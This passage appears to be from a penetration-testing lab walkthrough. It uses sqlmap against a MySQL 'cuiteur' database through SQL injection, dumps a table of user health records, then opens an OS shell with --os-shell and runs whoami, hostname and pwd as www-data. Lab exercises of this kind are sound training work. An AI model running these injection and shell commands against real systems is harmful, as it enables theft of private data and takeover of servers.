 ```sh
```
### 5.2 Execute `sqlmap` to get the records found in the in the `cuiteur` database


```sh
sqlmap -r sqli.txt --dbms=mysql -D cuiteur --dump
```

- Examine the output
```sh
Database: cuiteur
Table: userhealth
[6 entries]
+-----+-----------+-----------------------------+
| hID | hIDAuteur | hHealthRecord               |
+-----+-----------+-----------------------------+
| 81  | 1         | Appendix surgery            |
| 82  | 3         | Allergy to cats             |
| 83  | 3         | Cancer treatment            |
| 84  | 4         | Respiratory therapy         |
| 85  | 6         | Hormone replacement therapy |
| 164 | 27        | Stem cell therapy           |
+-----+-----------+-----------------------------+
```

## 6) Grant the initial shell access

> **Duration:** 10 minutes

### 6.1 Execute `sqlmap` to grant a SQL shell connection via SQL injection
```sh
sqlmap -r sqli.txt --dbms=mysql --os-shell
# Which web application language does the web server support?
# Type 4 and then press enter
```

### 6.2 Execute OS commands through the SQL shell connection
```sh
whoami
# do you want to retrieve the command standard output? [Y/n/a] y
# command standard output: 'www-data'
hostname
# do you want to retrieve the command standard output? [Y/n/a] y
# command standard output: 'ep273u-w1-energetic-bear'
pwd
# do you want to retrieve the command standard output? [Y/n/a] y
# command standard output: '/var/www/html/php'
... 
```
